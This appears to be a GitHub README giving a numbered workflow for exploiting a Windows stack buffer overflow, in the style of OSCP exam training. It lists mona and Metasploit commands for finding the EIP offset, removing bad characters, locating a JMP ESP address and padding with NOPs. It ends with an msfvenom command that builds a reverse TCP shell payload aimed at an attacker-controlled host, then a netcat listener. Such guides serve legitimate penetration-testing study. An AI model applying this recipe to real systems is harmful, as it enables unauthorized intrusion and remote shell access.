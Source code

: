 # How to use it

1 - Mona Configuration
\
`!mona config -set workingfolder c:\mona\%p` (Configure mona)

2 - Fuzzer payload

3 - Crash Replication & Controlling EIP
\
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600` (Change the -l value to the value that crashed the server)
\
Then use Exploit payload:
\
exploit.py

4 - Search Offset
\
`!mona findmsp -distance 600` (Change the -l value to the value that crashed the server to find the EIP)
\
Then, update the exploit and set the offset variable. to the previews value and set retn to "BBBB"

5 - Finding bad characters
\
`!mona bytearray -b "\x00"`
\
badcharacter payload
\
update the payload
\
`!mona compare -f C:\mona\oscp\bytearray.bin -a <address>` (Address EIP)
\
and try to find the badcharacters

6 - Find a Jump Point
\
`!mona jmp -r esp -cpb "\x00"`
\
Find a jump point (Search de addres to set on the exploit in the part of "retn")

7 - Prepend NOPs
\
`padding = "\x90" * 16`

8 - Create Shell
\
`msfvenom -p windows/shell_reverse_tcp LHOST=tun0IPHERE LPORT=4444 EXITFUNC=thread -b "\x00" -f c`

9 - Netcat listener

10 - exploit!

